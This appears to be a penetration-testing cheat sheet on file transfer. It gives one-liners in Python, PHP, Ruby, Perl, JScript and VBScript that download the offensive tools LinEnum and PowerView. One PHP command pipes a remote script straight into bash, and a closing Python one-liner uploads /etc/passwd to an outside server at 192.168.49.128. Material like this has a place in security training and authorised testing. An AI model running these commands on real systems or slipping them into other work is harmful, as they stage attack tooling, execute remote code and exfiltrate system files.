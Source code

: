 
==Python==

**Python 2 - Download:**
```bash
python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

**Python 3 - Download:**
```bash
python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

==PHP==

**PHP Download with file_get_contents():**
```bash
php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

**PHP Download with fopen():**
```bash
php -r 'const BUFFER = 1024; $fremote = fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

**PHP Download and Pipe to Bash:**
```bash
php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

==Other Languages==

Ruby, Perl, JavaScript, and VBScript also offer file download capabilities.

**Ruby - Download:**
```bash
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```

**Perl - Download:**
```bash
perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```

**JavaScript - Download:**
```javascript
// JavaScript code in wget.js
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```
```bash
cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```

**VBScript - Download:**
```vbscript
' VBScript code in wget.vbs
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```
```bash
cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```

==Upload Operations using Python3==

Python's `requests` module facilitates HTTP requests, enabling file uploads.

**Starting the Python uploadserver Module:**
```bash
python3 -m uploadserver 

# File upload available at /upload
# Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

**Uploading a File Using Python One-liner:**
```bash
python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```
